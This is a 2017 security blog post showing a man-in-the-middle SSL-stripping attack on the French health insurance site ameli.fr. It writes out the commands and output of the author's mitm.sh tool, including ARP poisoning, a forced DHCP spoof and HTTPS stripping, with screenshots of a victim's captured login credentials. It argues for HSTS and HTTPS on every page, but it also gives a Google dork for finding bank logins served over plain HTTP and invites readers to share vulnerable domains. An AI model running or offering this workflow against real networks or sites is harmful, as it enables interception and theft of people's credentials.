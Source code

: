 ```yaml
---
layout: post
title:  "MITM, HSTS, and plain HTTP landing page in practice"
date:   2017-03-27
categories: mitm
---
```

<br />
Hi everybody,  
  
I already wrote some articles talking about the importance of implementing the HTTP Strict Transport Security ([HSTS](https://https.cio.gov/hsts/)) and to secure all the webpages, even the landing page.  
  
**Why all the pages should be secure ?**  
  
Because all the trafic should be hidden from prying eyes. If an attacker could interfer with only one page, several options are available to him. He can strip all secure headers, redirect trafic, change web page content, force HTTP trafic, and so on.  
Every case is different but keep in mind that if the victim is able to generate a plain HTTP request (http://website.com), the attacker can control all the trafic.  
  
However, if a ressource has been cached with HSTS, the browser will automatically do an internal redirect (Code 307).  
It is important to notice that the **Strict-Transport-Security** header will be cached if it is legitimate, i mean if the header is first saw by the browser on a HTTP response over TLS/SSL and if the certificate is valid (signed by a browser trusted CA). I checked on Chrome and Firefox this behavior. I saw on websites the **Strict-Transport-Security** set on plain HTTP response, but the browser won't redirect if the above conditions are not met.  
  
But what if HSTS has never been cached ? so we will be able to fool a victim an maintain an plain text connection as we will see (we won't deal with any certificate faking here.  
  
In our example we will do a **MITM** attack between a Kali VM and the [french social welfare website](http://ameli.fr). You can find so many other websites, even some online bank websites to reproduce the attack.  
MITM attacks still succeed if you are not protected with some soft/hardware dropping unsolicited ARP responses ([RFC 826](https://tools.ietf.org/html/rfc826)).  
  
So stop talking, go for the show:  
![pic1]({{ site.url }}/public/images/mitm-example/pic1.png)  
  
We have here a non-secure HTTP landing page. What happens if we click on *"Mon compte ameli"* in order to log in ?  
![pic2]({{ site.url }}/public/images/mitm-example/pic2.png)  
  
So we have a secure login page.  What about the response headers ?  
![pic3]({{ site.url }}/public/images/mitm-example/pic3.png)  
  
Another check:  
  
```bash
root@kali:/tmp$ nmap -p 443 --script http-hsts-verify assure.ameli.fr 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-27 20:08 CEST
Nmap scan report for assure.ameli.fr (93.174.145.36)
Host is up (0.016s latency).
PORT    STATE SERVICE
443/tcp open  https
| http-hsts-verify: 
|_  HSTS is not configured.

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```
  
I created a wrapper [script](https://github.com/phackt/mitm) to manage all the tools involved in the MITM attack. My advice is to run it on a Kali machine. However it will automatically download the web proxy that we will use ([Mitmproxy](https://mitmproxy.org/)).  
  
```bash
root@kali:/tmp$ git clone https://github.com/phackt/mitm.git && cd ./mitm
Clonage dans 'mitm'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (34/34), done.
remote: Total 49 (delta 15), reused 35 (delta 9), pack-reused 0
Dépaquetage des objets: 100% (49/49), fait.
root@kali:/tmp/mitm$ sudo ./mitm.sh
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
  
We are almost ready for our mitm attack. We will specify the interactive mode (mitmproxy GUI), the capture HTTP traffic mode only (not faking certificates) and we will apply our custom **sslstrip.py** script.  
  
If you check the **bin** folder, you will find these tools:  
 - **arpoison.sh** to automate ARP poisoning  
 - **chk_poison.py** which will check if an ARP poisoning is successful  
  
First let's check the ips:  
  
```bash
root@kali:/tmp/mitm# route -n
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
root@kali:/tmp/mitm# nmap -sn 192.168.1.1/24
...
Nmap scan report for kali.home (192.168.1.19)
Host is up (0.00012s latency).
...
```  
  
Now run mitm.sh  
  
```bash
root@kali:/tmp/mitm# ./mitm.sh -g -n -x -i wlan0 192.168.1.1 192.168.1.19
INTERACTIVE_MODE On
HTTP_INTERCEPTION On
HTTPS_STRIPPING On

Installing mitmproxy v1, please wait...

--2017-03-27 20:49:08--  https://github.com/mitmproxy/mitmproxy/releases/download/v1.0/mitmproxy-1.0.0post1-linux.tar.gz
Résolution de github.com (github.com)… 192.30.253.113, 192.30.253.112
Connexion à github.com (github.com)|192.30.253.113|:443… connecté.
requête HTTP transmise, en attente de la réponse… 302 Found
Emplacement : https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream [suivant]
--2017-03-27 20:49:08--  https://github-cloud.s3.amazonaws.com/releases/519832/3dcda87e-cbe7-11e6-90f5-73a30be85192.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAISTNZFOVBIJMK3TQ%2F20170327%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20170327T194852Z&X-Amz-Expires=300&X-Amz-Signature=584985dd5837498f44b588a4bd9f6378f1e12783e75b6dc2ec1acca2772da86f&X-Amz-SignedHeaders=host&actor_id=0&response-content-disposition=attachment%3B%20filename%3Dmitmproxy-1.0.0post1-linux.tar.gz&response-content-type=application%2Foctet-stream
Résolution de github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)… 54.231.114.227
Connexion à github-cloud.s3.amazonaws.com (github-cloud.s3.amazonaws.com)|54.231.114.227|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 70081542 (67M) [application/octet-stream]
Sauvegarde en : « /tmp/mitm/mitmproxy/mitmproxy.tar »

/tmp/mitm/mitmproxy/mitmproxy.tar     100%[=======================================================================>]  66,83M  4,94MB/s    in 14s     

2017-03-27 20:49:23 (4,82 MB/s) — « /tmp/mitm/mitmproxy/mitmproxy.tar » sauvegardé [70081542/70081542]

mitmproxy
mitmdump
mitmweb

Installation done.

Flushing iptables...
Setting configuration...
No poisoning between 192.168.1.1 -> 192.168.1.19
Do you want to force poisoning? [Yn]:Y
Trying DHCP REQUEST to poison 192.168.1.1...
no answer
Poisoning successful!!!
```  
  
**chk_poison.py** can try to force poisoning (works on Orange Livebox) by sending a spoofed DHCP request. The router will automatically generate ARP request after that and will legitimate our spoofed ARP responses.  
  
So now we are definitely ready to intercept the trafic.  
![pic4]({{ site.url }}/public/images/mitm-example/pic4.png)  
  
Now imagine that the victim is surfing on [http://www.ameli.fr](http://www.ameli.fr).  
![pic5]({{ site.url }}/public/images/mitm-example/pic5.png)  
  
We see the trafic passing through the attacker machine.  
From the victim's point of view, everything seems transparent... but notice a detail:  
![pic6]({{ site.url }}/public/images/mitm-example/pic6.png)  
  
*https://assure.ameli.fr* became *http://assure.ameli.fr*.  
Our script will know that it will have to replay the secure connection on the other side. Now when our victim wants to access the login page:  
![pic7]({{ site.url }}/public/images/mitm-example/pic7.png)  
  
Everything seems ok, except.... Where is the green padlock ![padlock]({{ site.url }}/public/images/mitm-example/padlock.png) ???  
So here we are, **sslstrip.py** has done its job, switching every https links into http, deleting every secure headers (HSTS too, so if not cached, the attack will succeed). The script will remind what domains need SSL/TLS and replay the connections in a secure manner with the destination website.  

So we have **Victim <- HTTP -> Attacker (Mitmproxy) <- HTTPS -> Website**.  We can now intercept all the trafic in clear.  
  
Don't be impatient, the victim will log in a few seconds.  
![pic8]({{ site.url }}/public/images/mitm-example/pic8.png)  
  
In our proxy we can see the post request. Let's check the details:  
![pic9]({{ site.url }}/public/images/mitm-example/pic9.png)  
  
Credentials have been stolen.  
And from our victim, is this transparent ?:  
![pic10]({{ site.url }}/public/images/mitm-example/pic10.png)  
  
A lot of people will not notice that the connection is not secure (except you infosec ninjas) and will keep on surfing.  
So since you are clicking on http://banksite.com, if HSTS has not been cached for the domain banksite.com (best to use the preload list), you can keep plain connection because our proxy will strip the redirection to **https**://banksite.com into **http**://banksite.com and will act as we just seen above.  
  
Is it really much more expensive to have all the pages secure ? [HSTS](https://tools.ietf.org/html/rfc6797) is also just one header in the response and can easily be added. Companies should also think to have their domain in the preload list in order to perform a 307 internal redirect from the very first request. Here is the [HSTS preload list submission form](https://hstspreload.org/).  
Finally we can not talk here about vulnerability, but more as a lack of responsability.   
  
You also can play with the other options of **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```
  
N.B: i contacted the webmaster i will let you know.  
  
You should try this kind of Google Dork: [-inurl:https online banking (log OR logon OR login OR account)](https://www.google.com/#q=-inurl:https+online+banking+(log+OR+logon+OR+login+OR+account))  
  
I sincerely hope you enjoyed this post as i liked to do it.  
Feel free to comment if you have any question, or if you find other cool domains.  
  
Tchuss,  
Phackt.  
  
References:
 - [https://github.com/phackt/mitm](https://github.com/phackt/mitm)  
 - [https://nmap.org/nsedoc/scripts/http-hsts-verify.html](https://nmap.org/nsedoc/scripts/http-hsts-verify.html)  
 - [https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)  

